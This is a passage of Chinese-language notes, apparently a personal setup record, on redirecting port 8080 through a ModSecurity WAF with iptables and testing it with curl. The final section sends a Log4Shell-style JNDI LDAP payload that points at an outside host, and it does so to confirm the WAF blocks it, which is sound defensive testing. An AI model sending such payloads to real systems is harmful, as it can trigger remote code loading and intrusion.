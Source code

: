 2. **解决方案**
   (1) **确保 iptables 规则生效**
      检查流量是否经过 PREROUTING 链
      - 如果从本机测试（例如 `curl http://127.0.0.1:8080`），流量不会经过 `PREROUTING` 链。
      - 改为从外部机器测试（例如 `curl http://<Target-IP>:8080`），确保流量经过 `PREROUTING` 链。

   (2) **添加 OUTPUT 链规则**
   如果必须从本机测试，可以在 `OUTPUT` 链中添加规则，将本机发出的流量重定向到 `81` 端口：
   ```bash
   sudo iptables -t nat -A OUTPUT -p tcp --dport 8080 -j REDIRECT --to-port 81
   ```

3. **保存规则**
   确保规则在重启后仍然生效：
   ```bash
   sudo iptables-save | sudo tee /etc/iptables/rules.v4
   ```
   ![1742387633892](image/record/1742387633892.png)

4. **测试最终效果**
   - 从外部机器测试 , 发送请求到 `8080` 端口：
      ```bash
      curl http://<Target-IP>:8080/
      ```
      检查是否被重定向到 `81` 端口，并经过 WAF。

   - 从本机测试 , 发送请求到 `8080` 端口：
      ```bash
      curl http://127.0.0.1:8080/
      ```
      检查是否被重定向到 `81` 端口，并经过 WAF。

---

##### [13] 测试 WAF 拦截

   发送包含恶意 payload 的请求：
   ```bash
   curl -X POST http://<Target-IP>:8080/ -d "param1=jndi:ldap://chloris.check4safe.top/exploit"
   ```
   检查是否返回 `403 Forbidden`，并查看 ModSecurity 日志：
   ```bash
   tail -f /var/log/apache2/modsec_audit.log
   ```
